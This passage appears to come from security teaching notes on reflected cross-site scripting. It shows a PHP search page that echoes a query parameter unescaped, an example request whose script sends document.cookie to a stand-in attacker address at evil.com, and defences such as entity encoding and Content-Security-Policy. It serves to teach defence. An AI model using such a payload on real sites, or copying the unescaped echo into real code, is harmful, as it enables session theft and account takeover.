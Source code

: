 The attacker first embeds the malicious script in the URL as a parameter in the query string. They then lure the user to visit their page, where the victim clicks a link to a trusted site. The server may echo back the script or the complete URL to the user, causing the malicious script to run in the context of the victim server.

For example, in the following code, user input is echoed back in the HTML response:

\begin{verbatim}
<?php
// search.php
echo "Your search results of the term " . $_GET["term"] . " are:";
foreach ($results as $row) {
  // ...
}
?>
\end{verbatim}

A request like \texttt{GET /search.php?term=<script>Send(document.cookie,`admin@evil.com');</script>} can be used to send cookies.

The trusted site then returns a page containing the injected JavaScript code, which is controlled by the attacker. This code executes in the context of the trusted website. The malicious JavaScript can access session tokens and reuse them to log into the website as the victim user, access all user information on the trusted site, or create a fake login form to steal user credentials.

\subsection{Defense}
To prevent XSS attacks, every piece of data that is returned to the user and can be influenced by input must be sanitized. This includes GET or POST parameters, cookies, request headers, database query results, file contents, etc.

Many programming languages provide routines to prevent the introduction of code, but sanitization must be performed differently depending on where the data is used.

In addition, special characters must be replaced with character entities. Some characters in HTML are reserved and must be encoded, since they are used by the browser parser to construct elements. Therefore, user input should be escaped before being processed by the parser. For example, use \texttt{\&lt;} for <, \texttt{\&gt;} for >, and \texttt{\&amp;} for \&.

Allowing a server to specify what is allowed or not during the rendering of a webpage, e.g., prohibiting inline scripting by default, can help to mitigate XSS. A policy is returned by specifying the Content-Security-Policy HTTP header, or it can be defined in the \texttt{<meta>} tag. A policy can also define a whitelist of sources from which content can be fetched and executed, i.e., JavaScript, stylesheets, images, etc. The enforcement requires support from the browser.

